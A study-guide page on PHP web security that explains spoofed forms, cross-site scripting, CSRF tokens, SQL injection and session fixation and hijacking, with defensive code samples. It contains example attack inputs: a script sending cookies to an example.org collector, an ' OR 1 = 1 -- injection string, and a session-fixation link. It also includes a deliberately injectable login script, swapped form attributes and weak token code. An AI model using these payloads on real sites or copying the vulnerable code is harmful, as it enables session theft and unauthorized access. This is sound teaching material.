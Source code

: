 ## Website Security

####Spoofed Forms
A common method used by attackers is a spoofed form submission by copying a target form and executing it from a different location. Do not rely upon client-side
validation techniques. Filtering input ensures that all data conforms to a list of acceptable values, and spoofed forms will not be able to get around serverside
filtering rules.

####Cross-Site Scripting
Cross-site scripting (XSS) is one of the most common and best known kinds of attacks. It is usually an effort to steal user information, such as cookies and other personally identifiable data. All applications that display input are at risk. Consider the following form, for example. It allows a user to add a comment to another user’s profile. After submitting a comment, the page displays all of the comments that have been submitted so that everyone can view all of the comments left on the user’s profile.
```php
<form method="POST" action="process.php">
  <p>Add a comment:</p>
  <p><textarea name="comment"></textarea></p>
  <p><input type="submit"></p>
</form>
```
Imagine that a malicious user submits a comment on someone’s profile that includes the following content and it is displayed without escaping:
```
<script>
document.location = 'http://example.org/getcookies.php?cookies=' + document.cookie;
</script>
```
Now, everyone visiting this user’s profile will be redirected to the given URL and their cookies (including personally identifiable information and login information) will be appended to the query string. The attacker can easily access the cookies with ```$_GET['cookies']``` and store them for later use. However, this attack works only if the application fails to escape output. Thus,
it is easy to prevent with proper output escaping.


####Cross-Site Request Forgeries
A cross-site request forgery (CSRF) is an attack that attempts to cause a victim to send arbitrary HTTP requests, usually to URLs requiring privileged access, using the victim’s existing session to gain access. The HTTP request then causes the victim to execute a particular action based on his or her level of privilege, such as making a purchase or modifying or removing information.

While proper escaping of output will prevent your application from being used as the vehicle for a CSRF attack, it will not prevent your application from receiving forged requests. Thus, your application must be able to determine whether the request was intentional
and legitimate or possibly forged and malicious.

Setting a token to prevent CSRF:
```php
session_start();
$token = md5(uniqid(rand(), TRUE));
$_SESSION['token'] = $token;
?>
<form action="checkout.php" method="POST">
  <input type="hidden" name="token" value="<?php echo $token; ?>">
  <!-- Remainder of form -->
</form>
```
Validating CSRF token:
```php
// ensure token is set and that the value submitted
// by the client matches the value in the user's session
if (isset($_SESSION['token']) && isset($_POST['token']) && $_POST['token'] == $_SESSION['token']) {
  // Token is valid, continue processing form data
}
```

####Database Security
SQL injection occurs when a malicious user experiments on a form or (worse) URL query string to gain information about a database. After gaining sufficient knowledge—usually from database error messages—the attacker can exploit any possible vulnerabilities in the form by injecting SQL into form fields. Example form:
```html
<form method="login.php" action="POST">
  Username: <input type="text" name="username" /><br />
  Password: <input type="password" name="password" /><br />
  <input type="submit" value="Log In" />
</form>
```
Login script:
```php
$username = $_POST['username'];
$password = password_hash($_POST['password'], PASSWORD_DEFAULT);
$sql = "SELECT * FROM users WHERE username = '{$username}' AND password = '{$password}'";
/* database connection and query code */
if (count($results) > 0) {
  // Successful login attempt
}
```
An attacker might attempt to log in using a username similar to the following:
```
username' OR 1 = 1 --
```
With this username and a blank password, the SQL statement is now:
```sql
SELECT * FROM users WHERE username = 'username' OR 1 = 1 
  --' AND password = '431971ugwedq328r83ytges.98'
```
Since 1 = 1 is always true and -- begins an SQL comment, the SQL query ignores everything after the -- and successfully returns all user records. SQL injection attacks are made possible by a lack of filtering and escaping.

####Session Security
Two popular forms of session attacks are session fixation and session hijacking. Whereas most of the other attacks described in this chapter can be prevented by filtering input and escaping output, session attacks cannot. Instead, it is necessary to plan for them and identify potential problem areas of your application. It is possible, however, to set the session identifier manually through the
query string, forcing the use of a particular session. This simple attack is called session fixation because the attacker fixes the session. This is most commonly achieved by creating a link to your application and appending the session identifier that the attacker wishes to give any user clicking the link.
```
<a href="http://example.org/index.php?PHPSESSID=1234">Click here</a>
```
When the user accesses your site through this session, he may provide sensitive information or even login credentials. If the user logs in while using the provided session identifier, the attacker may be able to “ride” on the same session and gain access to the user’s account.

Every time a user’s access level changes, the session identifier should be regenerated. PHP makes this a simple task with
```session_regenerate_id()``` .
```php
session_start();
// If the user login is successful, regenerate the session ID
if (authenticate()) {
  session_regenerate_id();
}
```
While this will protect users from having their session fixed and offering easy
access to any would-be attacker, it won’t help much against another common
session attack known as session hijacking. This is a generic term used to
describe any means by which an attacker gains a user’s valid session identifier
(rather than providing one of his own).

After a successful login attempt, store the User-Agent into the session:
```php
$_SESSION['user_agent'] = $_SERVER['HTTP_USER_AGENT'];
```
Then, on subsequent page loads, check to ensure that the User-Agent has not
changed. If it has changed, that is cause for concern, and the user should log in again.
```
if ($_SESSION['user_agent'] != $_SERVER['HTTP_USER_AGENT']) {
  // Force user to log in again
  exit;
}
```
